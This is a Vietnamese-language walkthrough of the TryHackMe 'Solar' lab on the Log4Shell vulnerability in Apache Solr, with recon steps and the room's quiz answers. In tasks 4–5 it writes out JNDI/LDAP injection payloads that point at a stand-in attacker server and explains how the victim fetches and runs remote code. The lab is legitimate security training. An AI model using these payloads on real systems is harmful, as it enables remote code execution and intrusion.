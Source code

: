 - link bt: https://tryhackme.com/room/solar<br>
- link hướng dẫn: https://www.youtube.com/watch?v=c0OwAnyBGKI&t=289s<br>

*. task 1<br>
- lỗ hổng: CVE-2021-44228 ảnh hưởng đến gói ghi nhật kí của java log4j
- cuộc tấn công: Log4Shell cho phép thực thi mã từ xa<br>

*. task 2<br>
- trinh sát tìm cổng đang mở bằng: rustscan -a 10.10.85.83 -- -sV -sC:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/4d022816-debb-42e9-b224-060a2cce0152)<br>

1. What service is running on port 8983? (Just the name of the software)<br>
As: Apache Solr<br>

*. task 3<br>
1. Take a close look at the first page visible when navigating to http://10.10.85.83:8983. You should be able to see clear indicators that log4j is in use within the application for logging activity. What is the -Dsolr.log.dir argument set to, displayed on the front page?<br>
- truy cập: http://10.10.85.83:8983/<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/b59f0c97-6842-4104-9db1-29662ccf85e2)<br>

As: /var/solr/logs<br>

2. One file has a significant number of INFO entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry? (Just the filename itself, no path needed)<br>
- tải file về và giải nén:<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/7bab19c9-2d47-44f1-bd42-bb8500962607)<br>

As: solr.log<br>

3. What "path" or URL endpoint is indicated in these repeated entries?<br>
- đọc file solr.lod<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/57ec5c27-187c-41cc-ac0b-80e661e72bff)<br>

As: /admin/cores<br>

4. Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)<br>
As: params<br>

*. task 4<br>
- cú pháp khác cx can đc thực giống như khi nó đc ghi vào tệp nhật kí<br>
. cú pháp:<br>
- ${sys:os.name}
- ${sys:user.name}
- ${log4j:configParentLocation}
- ${ENV:PATH}
- ${ENV:HOSTNAME}
- ${java:version}<br>

- cú pháp tận dụng lỗ hổng: ${jndi:ldap://ATTACKERCONTROLLEDHOST}
- xài jndi: để truy cập các tài nguyên bên ngoài vốn đc vũ khí hóa trong cuộc tấn công này
- xài ldap//: mục tiêu sẽ tiếp cận điểm cuối (vị trí do kẻ tấn công kiểm soát) thông qua ldap
- mục tiêu sẽ tạo kết nối vs 1 vị trí bên ngoài
- cú pháp này đc nhập ở bất cứ nơi nào có dữ liệu đc ứng dụng ghi lại<br>

*. task 5<br>
- kết quả task 4 là các kí tự lạ -> xài ldap thực sự
- tạo 1 máy chủ giới thiệu ldap -> điều hướng yêu cầu nạn nhân đến nơi bn can lưu trữ tải trọng thứ cấp mà cuối cùng sẽ chạy mã trên mục tiêu<br>
. liên hệ vs máy chủ giới thiệu ldap: ${jndi:ldap://attackerserver:1389/Resource}<br>
. máy chủ ldap chuyển yêu cầu sang: http://attackerserver/resource<br>
. nạn nhân lấy và thực thi mã trong: http://attackerserver/resource<br>

- cần máy chủ http:<br>
. python3 -m http.server<br>
. php -S 0.0.0.0:8000<br>

1. What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)<br>
As: Listening on 0.0.0.0:1389<br>

*. task 9<br>
1. What is the full path of the specific solr.in.sh file?<br>
As: /etc/default/solr.in.sh
